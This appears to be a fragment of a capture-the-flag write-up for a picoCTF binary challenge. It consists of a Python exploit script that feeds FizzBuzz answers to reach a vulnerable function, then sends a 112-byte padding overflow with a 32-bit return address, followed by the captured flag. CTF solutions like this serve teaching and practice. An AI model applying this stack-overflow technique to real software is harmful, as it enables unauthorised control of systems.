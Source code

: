 ```python
fizzbuzz = lambda i: "fizzbuzz"[i*i%3*4:8--i**4%5] or str(i)

# gets to 0x08140c2e
answers = ['1', '2', 'fizz', '1', ...]

for ans in answers:
  r.sendlineafter('?', ans)

# gets to vulnerable function
additional = [-1, 10, -1, 8, -1, 11, -1, ...]
additional.extend([5, -1])
for n in additional:
  if n == -1:
    r.sendlineafter('?', 'meowo')
  else:
    for k in range(n-1):
      r.sendlineafter('?', fizzbuzz(k+1))

r.sendline(b'A'*112+p32(0x08048656))
```

# Flag
```
picoCTF{y0u_found_m3}
```
